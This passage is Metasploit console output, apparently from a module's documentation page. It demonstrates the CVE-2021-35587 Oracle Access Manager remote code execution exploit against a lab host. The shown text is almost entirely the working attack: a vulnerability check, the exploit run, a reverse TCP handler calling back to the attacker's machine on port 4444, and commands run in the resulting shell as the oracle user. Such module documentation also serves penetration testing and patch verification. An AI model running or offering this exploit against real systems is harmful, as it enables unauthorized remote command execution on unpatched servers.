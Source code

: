 ```


Exploit target:

   Id  Name
   --  ----
   2   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > check
[*] 192.168.86.70:14100 - The target appears to be vulnerable. Oracle Access Manager 12.2.1.4.0.
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Oracle Access Manager 12.2.1.4.0.
[*] Command shell session 2 opened (192.168.86.122:4444 -> 192.168.86.70:55776) at 2025-04-02 15:23:35 +0100

id
uid=1000(oracle) gid=1000(oracle) groups=1000(oracle)
uname -a
Linux 03b1805a74e3 6.8.0-57-generic #59~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Wed Mar 19 17:07:41 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
pwd
/u01/oracle/user_projects/domains/access_domain
```
